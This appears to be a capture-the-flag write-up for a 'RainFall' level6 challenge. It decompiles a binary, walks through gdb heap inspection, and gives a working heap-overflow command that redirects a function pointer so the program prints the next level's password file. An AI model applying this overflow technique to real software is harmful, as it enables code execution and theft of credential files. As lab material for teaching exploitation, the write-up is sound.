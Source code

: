 ## Step 1: Static & Dynamic Analysis

```c
int32_t m()
{
    return puts("Nope");
}

int32_t n()
{
    return system("/bin/cat /home/user/level7/.pass");
}

int32_t main(int32_t argc, char** argv, char** envp)
{
    char* eax = malloc(64);
    int32_t (** eax_1)() = malloc(4);
    *eax_1 = m;
    strcpy(eax, argv[1]);
    return (*eax_1)();
}
```

### Explanation

The binary allocates two memory blocks on the `heap`, the first one is `64` bytes, and the second is `4` bytes. The second block stores a function pointer initialized to `m()`. 

Then, the binary uses `strcpy()` to copy `argv[1]` into the first block without any check about `buffer overflow`. Our goal is to overflow the first block and overwrite the function pointer from `m()` to `n()`.

```asm
(gdb) info proc map
process 5857
Mapped address spaces:
        Start Addr   End Addr       Size     Offset objfile
         0x8048000  0x8049000     0x1000        0x0 /home/user/level6/level6
         0x8049000  0x804a000     0x1000        0x0 /home/user/level6/level6
         0x804a000  0x806b000    0x21000        0x0 [heap]
        0xb7e2b000 0xb7e2c000     0x1000        0x0 
        0xb7e2c000 0xb7fcf000   0x1a3000        0x0 /lib/i386-linux-gnu/libc-2.15.so
        0xb7fcf000 0xb7fd1000     0x2000   0x1a3000 /lib/i386-linux-gnu/libc-2.15.so
        0xb7fd1000 0xb7fd2000     0x1000   0x1a5000 /lib/i386-linux-gnu/libc-2.15.so
        0xb7fd2000 0xb7fd5000     0x3000        0x0 
        0xb7fdb000 0xb7fdd000     0x2000        0x0 
        0xb7fdd000 0xb7fde000     0x1000        0x0 [vdso]
        0xb7fde000 0xb7ffe000    0x20000        0x0 /lib/i386-linux-gnu/ld-2.15.so
        0xb7ffe000 0xb7fff000     0x1000    0x1f000 /lib/i386-linux-gnu/ld-2.15.so
        0xb7fff000 0xb8000000     0x1000    0x20000 /lib/i386-linux-gnu/ld-2.15.so
        0xbffdf000 0xc0000000    0x21000        0x0 [stack]
```

We inspect the heap contents after filling our buffer with 64 bytes.

```asm
(gdb) run $(python -c 'print("A" * 64)')

(gdb) x/32wx 0x804a000
    0x804a000:      0x00000000      0x00000049      0x41414141      0x41414141
    0x804a010:      0x41414141      0x41414141      0x41414141      0x41414141
    0x804a020:      0x41414141      0x41414141      0x41414141      0x41414141
    0x804a030:      0x41414141      0x41414141      0x41414141      0x41414141
    0x804a040:      0x41414141      0x41414141      0x00000000      0x00000011
    0x804a050:      0x08048468      0x00000000      0x00000000      0x00020fa9
    0x804a060:      0x00000000      0x00000000      0x00000000      0x00000000
    0x804a070:      0x00000000      0x00000000      0x00000000      0x00000000
```

```asm
(gdb) disas m
Dump of assembler code for function m:
   0x08048468 <+0>:     push   %ebp
   0x08048469 <+1>:     mov    %esp,%ebp
   0x0804846b <+3>:     sub    $0x18,%esp
   0x0804846e <+6>:     movl   $0x80485d1,(%esp)
   0x08048475 <+13>:    call   0x8048360 <puts@plt>
   0x0804847a <+18>:    leave  
   0x0804847b <+19>:    ret    
```

The address of `m()` is located at `0x08048468`, just 72 bytes from the start of the first block. We will overwrite this address with the address of `n()`.

```asm
(gdb) disas n
Dump of assembler code for function n:
   0x08048454 <+0>:     push   %ebp
   0x08048455 <+1>:     mov    %esp,%ebp
   0x08048457 <+3>:     sub    $0x18,%esp
   0x0804845a <+6>:     movl   $0x80485b0,(%esp)
   0x08048461 <+13>:    call   0x8048370 <system@plt>
   0x08048466 <+18>:    leave  
   0x08048467 <+19>:    ret
```

## Step 2: Exploiting the Binary

```bash
level6@RainFall:~$ ./level6 $(python -c 'print("A" * 72 + "\x08\x04\x84\x54"[::-1])')

f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
```
